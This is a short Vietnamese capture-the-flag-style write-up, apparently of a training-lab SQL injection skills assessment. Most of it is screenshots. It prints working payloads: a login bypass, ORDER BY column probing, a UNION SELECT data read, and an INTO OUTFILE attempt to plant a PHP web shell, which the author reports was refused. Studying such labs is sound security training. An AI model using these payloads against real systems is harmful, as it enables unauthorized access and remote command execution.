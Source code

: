 <h1>Skills Assessment - SQL Injection Fundamentals</h1>

![image](https://github.com/user-attachments/assets/d9b69a4c-0cbe-4f95-ba76-2e933b8c5ada)

![image](https://github.com/user-attachments/assets/db031969-8215-464d-920a-b9a42be8eb32)

![image](https://github.com/user-attachments/assets/e0999f0d-842a-430d-86f2-0e0f2dcb8bcf)

Sau khi ngồi thử 1 số payloads thì cuối cùng cũng vào được bằng cái `admin' OR 1 = 1 -- a`:

![image](https://github.com/user-attachments/assets/b4abe8c7-2b92-4967-8b29-2e232836a0da)

Và đây là giao diện của nó sau khi tôi đăng nhập bằng SQLi:

![image](https://github.com/user-attachments/assets/5b7b3839-67d0-4be0-a3f5-f3f51ea1ce75)

Bằng cách spam `' ORDER BY 1 -- a` thì tôi biết được nó có 5 cột:

![image](https://github.com/user-attachments/assets/cb8c58e2-1580-4a0a-aebc-d8dbee1d3029)

Để chắc hơn thì tôi dùng `' UNION SELECT 1, user(), 3, 4, 5-- -` để xem:

![image](https://github.com/user-attachments/assets/51afb444-13f0-4c08-9ed4-2303c40eaf11)

Dùng `abc' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/shell.php'-- -` thì nó bị từ chối, không đủ quyền:

![image](https://github.com/user-attachments/assets/6c0526db-006f-4b97-b8da-29d306562265)


